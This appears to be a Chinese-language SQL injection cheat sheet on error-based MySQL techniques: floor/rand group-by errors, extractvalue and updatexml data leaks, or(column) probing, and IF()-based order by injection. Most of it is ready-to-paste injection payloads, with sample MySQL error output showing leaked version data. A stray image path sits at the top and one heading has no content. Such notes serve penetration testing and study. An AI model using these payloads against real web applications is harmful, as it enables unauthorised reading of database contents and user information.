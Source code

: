 sleep()
BENCHMARK()

## 报错注入

### 通过floor报错

通过floor报错的方法来爆数据的本质是group by语句的报错。group by语句报错的原因是floor(random(0)*2)的不确定性，即可能为0也可能为1.

```
and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

and (select count(*) from (select 1 union select null union select  !1)x group by concat((select table_name from information_schema.tables  limit 1),floor(rand(0)*2)));
```

### ExtractValue报错

extractValue()使用时有两个参数，在注入时第一个参数为1，第二个参数为回显的数据。如果在报错数据不连接其他字符，数据可能会显示不完整。

```

mysql> select extractvalue(1,concat(0x3a,version())); //有连接字符
ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'
mysql> select extractvalue(1,version()); //无连接字符
ERROR 1105 (HY000): XPATH syntax error: '.53'
and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
```

### updateXML报错

updateXML()函数有3个参数，注入过程中第1，3个参数可以为1.第二个参数为要报错的数据，也需要连接其他字符才能得到完整数据。
```
语句：
and 1=(updatexml(1,concat(0x3a,(select user())),1))
```

### join报错注入

## MySQL相关

### or(表名)

or(字段名) 会遍历该字段下的之，返回不为false的值，字符串默认为0，即false，字符串内存在数字则为true。
可以用来测试是否存在某一字段名。

### order by 注入

order by子句后面参数为数字或字段名，
可以用if判断和返回值进行利用：
/?order=IF(1=1,name,price) 通过name字段排序
/?order=IF(1=2,name,price) 通过price字段排序
还可以使用rand()来执行sql语句进行报错注入和延时注入，没有回显是使用盲注。
